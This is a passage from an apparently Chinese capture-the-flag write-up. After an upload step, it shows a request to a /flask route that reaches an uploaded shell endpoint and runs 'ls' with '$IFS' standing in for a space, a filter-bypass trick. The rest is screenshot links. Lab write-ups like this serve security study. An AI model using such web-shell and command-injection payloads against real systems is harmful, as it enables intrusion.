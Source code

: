 [![](assets/1700442594-a482d0d542e908a17c3f54651dbf2f3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118160824-a546fd66-85e9-1.png)

成功上传之后，访问/flask路由

```plain
http://40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show/flask?name=/shell?cmd=ls$IFS/
```

[![](assets/1700442594-159594c55e3c8b44e198f8c581a19859.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118160837-ad2f4128-85e9-1.png)
